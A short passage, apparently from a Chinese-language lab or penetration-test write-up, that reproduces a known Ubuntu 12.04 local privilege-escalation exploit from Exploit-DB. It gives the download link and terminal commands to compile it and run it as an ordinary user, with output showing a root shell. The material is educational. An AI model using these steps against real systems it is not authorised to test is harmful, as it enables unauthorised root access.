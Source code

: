 看到是Ubuntu12.04版本的，那么可以利用Ubuntu著名的本地提权exp

下载地址：<https://www.exploit-db.com/exploits/37292>

将EXP代码保存带文件内，然后赋予权限，进行编译

```
root@indishell:~# vim exp.c
root@indishell:~# chmod 777 exp.c  //赋予权限
root@indishell:~# gcc exp.c -o exp	//编译
root@indishell:~# ls	
exp  exp.c
root@indishell:~# mv exp /home/ica/  
root@indishell:~# su - ica   //由于是复现，我们切换用户为ica进行本地越权
ica@indishell:~$
ica@indishell:~$ ls
exp
ica@indishell:~$ ./exp  //执行EXP
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root)  groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),114(sambashare),1000(ica)       //成功越权
# 

```

